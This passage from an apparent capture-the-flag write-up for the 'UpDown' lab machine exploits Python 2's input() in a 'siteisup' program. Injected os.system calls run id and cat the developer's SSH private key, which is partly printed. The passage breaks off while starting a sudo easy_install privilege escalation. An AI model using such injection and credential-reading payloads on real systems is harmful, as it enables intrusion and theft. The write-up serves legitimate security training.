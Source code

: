 ![image-20240305205740218](./UpDown.assets/image-20240305205740218.png)

In python2, `input()` function has command injection vulnerability.

**POC**:

```console
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
```

**Exploit**:

```console
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
...
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
```

### developer -> root

sudo script enum:

```console
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
    
developer@updown:~$ cat /usr/local/bin/easy_install
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from setuptools.command.easy_install import main
if __name__ == '__main__':
```